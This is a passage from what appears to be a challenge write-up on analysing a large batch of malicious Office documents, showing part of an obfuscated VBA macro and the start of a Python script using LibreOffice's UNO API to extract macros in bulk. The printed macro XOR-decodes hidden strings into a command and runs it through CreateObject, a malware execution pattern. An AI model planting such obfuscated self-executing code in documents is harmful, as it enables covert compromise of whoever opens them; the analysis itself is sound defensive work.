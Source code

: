 ```vbnet
27, 11, 18, 15, 116, 56, 32, 28, 49, 120, 49, 45, 14, 19, 49, 60, 5, 30, 42, 18, _
127, 39, 32, 39, 120, 33, 0, 10, 76), 331)
KWYNkLDy = sUPofBHPpg(Array(117, 117, 24, 40, 31, 117, 9, 17, 6, 24, 29, 117, 9, 51, 27, 105, 49, 38, 12, 120, 26, _
15, 34, 7, 44, 20, 124, 20, 15, 4, 12, 29, 25, 118, 3, 43, 117, 50, 119, 125, 114, _
60, 23, 50, 90, 40, 9, 22, 36, 57, 7, 46, 98, 11, 53, 21, 22, 60, 8, 11, 10, _
22, 46, 18, 56, 46, 18, 46, 59, 32, 115, 26, 51, 30, 105, 27, 37, 11, 123, 96, 22, _
46, 41, 2, 49, 34, 50, 121), 243)
VgafpjZU = mXHYDYcv + BEChyIOD + vXdDrhSV + KWYNkLDy
VBodWvPv = sUPofBHPpg(Array(99, 61, 107, 29, 44, 3, 60, 127), 600)
Dim Obj As Object
Set Obj = CreateObject(sUPofBHPpg(Array(5, 101, 47, 34, 28, 69, 76, 66, 106, 39, 49, 11, 59), 0))
Obj.Run VgafpjZU, 1
End Function
```

What we have here :

 * a variable with random name (`zJTxqS` here) which is used in the macro itself
 * a private function which does some xor stuff
 * a public function which call the private "crypto" func many times and, at the end, does a "CreateObject" and run it

This is basically the same kind of macro than docs1, easy enough to understand. The only issue ... you have 1337 of them.

# ... but three macroses brings problem

No way, I won't parse the 1337 ones by hand. What I decided to do is write some script to:

 * extract the macro
 * find variable name and extract the var
 * store the macro with it's variable in some file.

for each document !

## Uno to the rescue

[Uno](https://api.libreoffice.org/) is the name of LibreOffice API. Yes, there is an api, and yes, your LibreOffice can listen on some socket !

So first thing first , run libreoffice so that it listens on some socket:

```bash
$ soffice --headless --invisible --accept="socket,host=localhost,port=2002;urp;StarOffice.ServiceManager"
```

Then, start python code. The code to contact the API is not really ... straightforward to understand, and is taken from various websites. Here it is :

```python
def main():
    retVal = 0
    doc = None
    stdout = False

    try:
        stdout = True

        ctxLocal = uno.getComponentContext()
        smgrLocal = ctxLocal.ServiceManager

        resolver = smgrLocal.createInstanceWithContext(
                 "com.sun.star.bridge.UnoUrlResolver", ctxLocal )
        url = "uno:socket,host=localhost,port=2002;urp;StarOffice.ComponentContext"
        ctx = resolver.resolve( url )
```